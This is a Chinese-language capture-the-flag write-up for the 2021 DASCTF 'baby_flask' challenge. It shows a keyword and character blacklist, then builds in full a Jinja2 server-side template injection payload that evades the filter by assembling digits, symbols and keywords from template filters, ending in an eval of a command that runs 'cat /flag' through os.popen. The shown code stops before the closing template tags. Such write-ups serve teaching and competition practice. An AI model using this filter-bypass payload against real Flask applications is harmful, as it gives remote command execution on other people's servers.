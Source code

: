 ### [2021 MAR & DASCTF]baby_flask

黑名单

```python
blacklist</br>   
'.','[','\'','"','\\','+',':','_',</br>   
'chr','pop','class','base','mro','init','globals','get',</br>   
'eval','exec','os','popen','open','read',</br>   
'select','url_for','get_flashed_messages','config','request',</br>   
'count','length','０','１','２','３','４','５','６','７','８','９','0','1','2','3','4','5','6','7','8','9'</br>
```

Payload构造过程如下：

```python
# 首先构造出所需的数字: 
{% set zero = (self|int) %}    # 0, 也可以使用lenght过滤器获取数字
{% set one = (zero**zero)|int %}    # 1
{% set two = (zero-one-one)|abs %}    # 2
{% set four = (two*two)|int %}    # 4
{% set five = (two*two*two)-one-one-one %}    # 5
{% set three = five-one-one %}    # 3
{% set nine = (two*two*two*two-five-one-one) %}    # 9
{% set seven = (zero-one-one-five)|abs %}    # 7

# 构造出所需的各种字符与字符串: 
{% set space = self|string|min %}    # 空格
{% set point = self|float|string|min %}    # .

{% set c = dict(c=aa)|reverse|first %}    # 字符 c
{% set bfh = self|string|urlencode|first %}    # 百分号 %
{% set bfhc = bfh~c %}    # 这里构造了%c, 之后可以利用这个%c构造任意字符。~用于字符连接
{% set slas = bfhc%((four~seven)|int) %}    # 使用%c构造斜杠 /
{% set yin = bfhc%((three~nine)|int) %}    # 使用%c构造引号 '
{% set xhx = bfhc%((nine~five)|int) %}    # 使用%c构造下划线 _
{% set right = bfhc%((four~one)|int) %}    # 使用%c构造右括号 )
{% set left = bfhc%((four~zero)|int) %}    # 使用%c构造左括号 (

{% set but = dict(buil=aa,tins=dd)|join %}    # builtins
{% set imp = dict(imp=aa,ort=dd)|join %}    # import
{% set pon = dict(po=aa,pen=dd)|join %}    # popen
{% set so = dict(o=aa,s=dd)|join %}    # os
{% set ca = dict(ca=aa,t=dd)|join %}    # cat
{% set flg = dict(fl=aa,ag=dd)|join %}    # flag
{% set ev = dict(ev=aa,al=dd)|join %}    # eval
{% set red = dict(re=aa,ad=dd)|join %}    # read
{% set bul = xhx~xhx~but~xhx~xhx %}    # __builtins__

{% set ini = dict(ini=aa,t=bb)|join %}    # init
{% set glo = dict(glo=aa,bals=bb)|join %}    # globals
{% set itm = dict(ite=aa,ms=bb)|join %}    # items

# 将上面构造的字符或字符串拼接起来构造出 __import__('os').popen('cat /flag').read(): 
{% set pld = xhx~xhx~imp~xhx~xhx~left~yin~so~yin~right~point~pon~left~yin~ca~space~slas~flg~yin~right~point~red~left~right %}

# 然后将上面构造的各种变量添加到SSTI万能payload里面就行了: 
{% for f,v in (whoami|attr(xhx~xhx~ini~xhx~xhx)|attr(xhx~xhx~glo~xhx~xhx)|attr(itm))() %}    # globals
    {% if f == bul %} 
        {% for a,b in (v|attr(itm))() %}    # builtins
            {% if a == ev %}    # eval
                {{b(pld)}}    # eval("__import__('os').popen('cat /flag').read()")
```